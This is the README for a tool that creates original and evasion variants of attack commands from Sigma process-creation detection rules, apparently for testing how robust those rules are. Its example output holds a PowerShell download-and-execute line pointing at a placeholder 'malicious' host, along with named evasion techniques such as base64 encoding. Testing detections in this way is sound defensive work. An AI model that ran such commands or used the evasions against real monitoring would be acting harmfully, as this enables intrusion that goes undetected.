 # 🛠️ Evasion Command Generator – `attack_convert/`

This tool is designed to **generate original and evasion attack commands** based on Sigma rules from the `process_creation` category. It supports five evasion techniques and exports the result in JSON format for further analysis or simulation.

---

## 📁 Folder Structure

```plaintext
Sigma-automation/
├── attack_convert/
│   ├── main.py                    # Entry point to generate evasion commands
│   ├── utils/
│   │   ├── parser.py              # Extracts command line from Sigma rule
│   │   ├── evasions_core.py       # Main controller for all evasion techniques
│   │   └── evasions/
│   │       ├── insertion.py       # Evasion technique: Insertion
│   │       ├── substitution.py    # Evasion technique: Substitution
│   │       ├── omission.py        # Evasion technique: Omission
│   │       ├── reordering.py      # Evasion technique: Reordering
│   │       └── recoding.py        # Evasion technique: Recoding
```

---

## 🚀 How to Run

### 1. Prepare Input

- Place all Sigma rule files (`.yml`) in:

  ```plaintext
  data/rules/windows/process_creation/
  ```

- Create a file `evasion_possible_rules.txt` listing rules (by filename without `.yml`) that should be processed for evasion.

---

### 2. Run the Tool

> From the **project root** (`Sigma-automation/`):

#### Windows Command Prompt (CMD)

```cmd
set PYTHONPATH=D:\UIT\Nam_3\DACN\Sigma-automation
python -m attack_convert.main
```

#### PowerShell

```powershell
$env:PYTHONPATH="D:\UIT\Nam_3\DACN\Sigma-automation"
python -m attack_convert.main
```

---

## 📤 Output

- Generated files will be saved to:

  ```plaintext
  attack_convert/Evasion-Results/
  ```

- Each `.json` result includes:
  - The original attack command
  - Five evasion variations:
    - `insertion`
    - `substitution`
    - `omission`
    - `reordering`
    - `recoding`

---

### 📄 Example Output

```json
{
  "rule_name": "suspicious_powershell_0",
  "original_command": "powershell.exe -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious')\"",
  "evasions": {
    "insertion": "powershell.exe -Command \"<obfuscated-inserted-command>\"",
    "substitution": "powershell.exe -c \"<alias-used-command>\"",
    "omission": "powershell.exe \"<command with removed parameters>\"",
    "reordering": "powershell.exe \"<reordered arguments>\" -Command",
    "recoding": "powershell.exe -EncodedCommand <base64-encoded-command>"
  }
}
```

---

## 📦 Requirements

- Python 3.10+
- Install dependencies:

```bash
pip install pyyaml
```

---

## ✅ Notes

- Make sure your working directory is the **project root**, not inside `attack_convert/`.
- `PYTHONPATH` must point to the root folder to allow relative imports.
